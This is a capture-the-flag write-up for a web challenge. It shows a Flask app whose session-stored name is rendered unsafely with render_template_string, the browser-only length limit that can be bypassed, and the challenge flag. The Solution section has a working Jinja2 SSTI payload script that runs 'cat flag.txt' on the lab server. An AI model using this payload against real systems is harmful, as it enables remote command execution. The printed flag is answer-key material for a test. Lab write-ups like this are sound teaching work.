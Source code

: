 # Trial By Fire

## **Challenge Details**
- **Category**: Web
- **Difficulty**: Very Easy
- **Flag**: HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_a22fa5e7afa190f778cf0b456d62acde}
- **Description**: A vulnerable Flask app renders user input in templates—bypass client-side limits to exploit SSTI and execute commands

---

## **Approach**
1. **Initial Observations**:

The application starts with a name entry screen with a 30-character limit:

![](attachments/image.png)

After submitting a name, users are challenged to a game:

![](attachments/image2.png)

Completing the game generates a battle report containing the submitted name:

![](attachments/image3.png)

2. **Analysis**
The Flask application stores the submitted name in the session cookie and later renders it unsafely in the battle report template.

```py
@web.route('/begin', methods=['POST'])
def begin_journey():
    warrior_name = request.form.get('warrior_name', '').strip()
    if not warrior_name:
        return redirect(url_for('web.index'))

    session['warrior_name'] = warrior_name
    return render_template('intro.html', warrior_name=warrior_name)
```

And at the battle-report the warrior name is rendered. So this app is vulnerable to SSTI. 
```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```
This implementation is vulnerable to Server-Side Template Injection (SSTI) because user-controlled input (warrior_name) is directly inserted into a Jinja2 template rendered with render_template_string()

---

## **Solution**
The 30-character limit is only enforced in the browser (client-side). We can bypass this by:
1. Using a Python script to send a direct POST request to /begin
2. Intercepting the POST request to /begin using Burp Suite

The server responds with a session cookie containing our payload. Subsequent requests to /battle-report will execute the payload when the template renders warrior_name:

```py
import requests

url = "http://94.237.53.203:59491"
ssti_payload = "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"

with requests.Session() as s:
    begin_response = s.post(url + "/begin", data={"warrior_name" : ssti_payload})
    report_response = s.post(url + "/battle-report")
    print(report_response.text)
```
